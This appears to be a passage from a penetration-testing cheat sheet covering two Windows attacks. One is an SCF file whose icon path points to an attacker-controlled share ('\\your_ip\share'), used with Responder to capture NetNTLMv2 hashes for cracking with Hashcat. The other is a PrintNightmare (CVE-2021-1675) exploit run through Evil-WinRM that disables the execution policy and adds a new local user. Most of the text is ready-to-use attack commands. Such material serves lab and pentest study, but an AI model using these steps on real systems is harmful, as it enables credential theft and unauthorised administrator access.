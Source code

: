 * Save the below code as .scf
```
[Shell]
Command=2
IconFile=\\your_ip\share\pentestlab.ico
[Taskbar]
Command=ToggleDeskto
```
* Run Responder
```
responder -wrf --lm -v -I tun0
```
* Identify the hash with hashid
 should be NetNTLMv2 hash
 
* pass the hash and crack with Hashcat mode -m 5600
-------------------------------------------------------------

### CVE-2021-1675 (priv esc)
> github:https://github.com/calebstewart/CVE-2021-1675 

```
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Restricted
*Evil-WinRM* PS C:\temp> Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Unrestricted
*Evil-WinRM* PS C:\temp> Import-Module .\print-nightmare.ps1
*Evil-WinRM* PS C:\temp> Invoke-Nightmare -NewUser "john" -NewPassword "password" -DriverName "PrintMe"
```

* new evil-winrm session
```
evil-winrm -i 192.168.1.1 -u john -p password
```
